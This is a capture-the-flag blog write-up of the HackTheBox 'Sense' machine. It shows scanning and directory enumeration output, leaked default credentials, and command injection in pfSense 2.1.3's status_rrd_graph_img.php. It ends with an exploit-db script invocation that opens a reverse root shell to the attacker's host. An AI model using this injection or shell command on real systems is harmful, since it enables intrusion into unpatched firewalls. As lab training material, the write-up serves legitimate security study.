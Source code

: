 ```yaml
---
layout: post
title: "HackTheBox - Sense writeup"
subtitle: "~ Walkthrough of Sense machine from HackTheBox ~"
date: 2018-03-2
author: V3ded
category: CTF
tags: blog ctf pentesting hackthebox
finished: true
---
```


# Introduction
<img src="/img/blog/htb-sense/htb-sense-01.png">

Sense! An easy rated machine which can be both simple and hard at the same time. Enumeration is a heavy factor in this box, so make sure you don't overlook anything! Missing one simple detail might result into countless hours of wasteful searching and mashing of the keyboard :). Without further ado, let's get right into it!

# Scanning  
Start out by obtaining the IP (**10.10.10.60**) of the Sense machine and nmap it.

```console
root@EdgeOfNight:~# nmap -sS -T4 -A 10.10.10.60 

Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-25 05:02 CDT
Nmap scan report for 10.10.10.60
Host is up (0.13s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): Comau embedded (92%), OpenBSD 4.X (89%)
OS CPE: cpe:/o:openbsd:openbsd:4.0
Aggressive OS guesses: Comau C4G robot control unit (92%), OpenBSD 4.0 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   169.61 ms 10.10.14.1
2   169.63 ms 10.10.10.60

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.61 seconds

```

The scan yields 2 open ports (**HTTP** on port 80, **HTTPS** on 443) and deducts that the scanned "device" is either a *Comau embedded system* or *OpenBSD*. From this information we can make multiple guesses about the OS - `FreeBSD, NetBSD, Solaris` and so on.

***

# Enumeration

Visiting *10.10.10.60* in our browser redirects us to the the HTTPS version of the website and shows that the webpage itself is a login interface to *pfSense*.

<img src="/img/blog/htb-sense/htb-sense-02.png">

*pfSense* is an open source firewall and therefore it's important we are careful during our enumeration. If we do anything which is very suspicious (bruteforce attack the login *cough cough*), the firewall might block us and render our future attempts useless.

Choosing the standard enumeration approach after trying default pfSense login credentials, I start out with gobuster. Main goal is to find hidden directories.

```console
root@EdgeOfNight:~# gobuster -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://10.10.10.60/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded     : true
=====================================================
https://10.10.10.60/themes (Status: 301)
https://10.10.10.60/css (Status: 301)
https://10.10.10.60/includes (Status: 301)
https://10.10.10.60/javascript (Status: 301)
https://10.10.10.60/classes (Status: 301)
...[MORE OUTPUT REDACTED]...
```

Took some time to inspect all of the directories to no avail. They are either *404* or redirect back to the login page. In my second attempt I do gobuster once again. However, this time I use `-x` option to look for specific file extensions as well. Extensions such as `.php, .txt, .sh, .bak` are always good choices. Lazy sysadmins often leave files laying around. What a shame, right?

root@EdgeOfNight:~/Desktop/Writeups/Sense# gobuster -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -x txt

```console
Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://10.10.10.60/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Extensions   : .txt
[+] Expanded     : true
=====================================================
https://10.10.10.60/themes (Status: 301)
...
...
https://10.10.10.60/changelog.txt (Status: 200)
...
https://10.10.10.60/system-users.txt (Status: 200)
...
...
```console

> Note: A lot of useless directories were redacted for easier readability 
As you can see now, we get 2 new options - **changelog.txt** and **system-users.txt**. Let's check them out.

*changelog.txt*:
<img src="/img/blog/htb-sense/htb-sense-03.png">

Good news in this one! It mentions that 2 out of 3 vulnerabilities have been patched. That means that 1 vulnerability can still be exploited! Moving on...

*system-users.txt*:
<img src="/img/blog/htb-sense/htb-sense-04.png">

```
username: Rohit
password: company defaults
```

Look at that. Wonderful! We successfully obtained rohit's credentials. Use them to login to *pfSense* - `rohit:pfsense`.
> Note: Make sure you type *rohit* with all lowercase letters. pfSense has case sensitive login mechanism even for usernames.

pfSense dashboard:   
<img src="/img/blog/htb-sense/htb-sense-05.png">

A lot of information pops out on the screen. The most important one is the version.
```
Version 	2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
Unable to check for updates.
```

Knowing the version (**2.1.3**), we can openly search for vulnerabilities. By doing some simple google searching, I was able to find that this particular version is vulnerable to a remote command execution exploit. You can read more about it [here](https://packetstormsecurity.com/files/145575/pfSense-2.1.3-RELEASE-amd64-Remote-Command-Execution.html). 

***

# Exploitation
There are multiple approaches for exploiting this machine. Let's go through them one by one.

## Manual
The report discloses that database GET parameter is vulnerable to an injection. Therefore `https://10.10.10.60/status_rrd_graph_img.php?&database=queues;<INJECTION>` will allow us to run any command on the system. There's one problem though. There is no way of seeing stdout! Simple fix can achievied by piping every injection through netcat and then listening for the server's reply on our machine.

<img src="/img/blog/htb-sense/htb-sense-06.png">

Ippsec does a lot better & more detailed job of explaining this than I ever could, so props to him. He goes over multiple important things such as evading bad characters and pivoting through another machine in case pfSense blocks you. I highly advise you watch his [video](https://www.youtube.com/watch?v=d2nVDoVr0jE)! The injection part starts at around **17:30**.

## Using exploitdb python script
The script can be located [here](https://www.exploit-db.com/exploits/43560/).
```console
usage: exploit.py [-h] [--rhost RHOST] [--lhost LHOST] [--lport LPORT]
                  [--username USERNAME] [--password PASSWORD]
```

And therefore running `python3 exploit.py --rhost 10.10.10.60 --lhost 10.10.14.73 --lport 1234 --username rohit --password pfsense` should return us a root shell!

<img src="/img/blog/htb-sense/htb-sense-07.png">

> Note: Make sure you use python3, not python2!

## Using Metasploit
As it appears, there is also a metasploit module which simplifies everything we've done so far. The [exploit](https://www.rapid7.com/db/modules/exploit/unix/http/pfsense_graph_injection_exec) is very simple and all that's required is setting up lhost and lport. You know the drill.

<img src="/img/blog/htb-sense/htb-sense-09.png">

***
## No matter which option you go with. A root shell will be your reward nontheless! Congratulations!
***

## Conclusion
A pretty simple but amazing box. I really liked the authenticity of this one. This exploitation was "real life" like and therefore I consider it as a perfect practice for anyone who wants to improve in this field!

~V3
